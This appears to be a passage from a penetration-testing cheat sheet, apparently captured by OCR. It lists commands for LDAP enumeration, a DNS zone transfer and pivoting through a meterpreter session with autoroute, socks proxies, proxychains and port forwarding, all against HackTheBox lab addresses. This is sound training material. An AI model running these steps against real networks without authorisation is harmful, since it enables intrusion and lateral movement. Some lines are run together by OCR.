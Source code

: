 ```
At this point you should get a meterpreter shell
```
[Header](#header)
## ldapsearch

```
ldapsearch -x -h 10.10.10.10
ldapsearch -x -h 10.10.10.10 -s base
ldapsearch -x -h 10.10.10.10 -s base namingcontexts
ldapsearch -x -h 10.99.99.99 -s sub -b 'dc=hackthebox,dc=htb'
nmap -p 389 --script ldap-rootdse -Pn 10.10.10.10nmap -p 389 --script ldap-search -Pn 10.10.10.10
```
[Header](#header)
## DNS transfer
```
nslookup
> server 10.10.10.13
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.>

dig axfr @10.10.10.13 cronos.htb
```
[Header](#header)
## Pivoting with Autoroute 
```
meterpreter > run autoroute -s 192.168.0.0/24
[*] Adding a route to 192.168.0.0/255.255.255.0...
[+] Added route to 192.168.0.0/255.255.255.0 via 192.168.0.1
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
192.168.0.0 255.255.255.0 Session 1
msf auxiliary(tcp) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > run
[*] Starting the socks4a proxy server
```
```
netstat -eltn
tcp 0 0 0.0.0.0:1080 0.0.0.0:* LISTEN 0 24406
```
```
vim /etc/proxychains.conf
socks4 127.0.0.1 1080
```
```
proxychains nmap -p 445 -sV -sT -n 192.168.0.2 -Pn
```
[Header](#header)
## Port forward
```
meterpreter > portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445
[*] Local TCP relay created: 
0.0.0.0:445 <-> 192.168.57.102:445
meterpreter > portfwd list
Active Port Forwards
=================`===
Index Local Remote Direction
----- ----- ------ ---------
1 0.0.0.0:445 192.168.57.102:445 Forward1 total active port forwards
```